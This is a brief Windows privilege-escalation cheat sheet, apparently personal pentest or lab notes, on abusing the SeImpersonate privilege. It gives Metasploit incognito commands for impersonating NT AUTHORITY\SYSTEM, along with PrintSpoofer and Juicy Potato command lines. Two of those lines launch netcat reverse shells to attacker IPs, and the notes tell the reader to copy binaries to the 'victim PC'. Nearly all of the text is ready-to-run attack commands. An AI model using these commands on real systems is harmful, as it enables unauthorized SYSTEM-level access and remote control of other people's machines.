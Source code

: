 # SeImpersonate
----------
**SeImpersonate** token abuse using metasploit:
```bash
meterpreter > load incognito
> list_tokens -u 
> impersonate_token "NT AUTHORITY\SYSTEM"
> shell
```

------

## PrintSpoofer
In system with the operating system Windows 10 and Server 2016/2019, use PrintSpooler. 

https://github.com/itm4n/PrintSpoofer/releases

Execute cmd.exe as admin:
```
.\PrintSpoofer.exe -i -c cmd
```

Execute nc.exe as admin for reverse shell:
```
.\PrintSpoofer.exe -c "C:\Windows\Tasks\nc64.exe 10.10.10.10. 1337 -e cmd"
```

-----------

## Juicy Potato 
Download the binary from:
https://github.com/ohpe/juicy-potato/releases

Copy over the binary and nc to the victim PC.

Get the CLSID from:
http://ohpe.it/juicy-potato/CLSID/

```
.\potato.exe -l 1337 -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}" -p C:\windows\system32\cmd.exe -a "/c C:\Windows\Tasks\nc.exe 10.10.14.50 80 -e cmd.exe" -t *
```


-----------
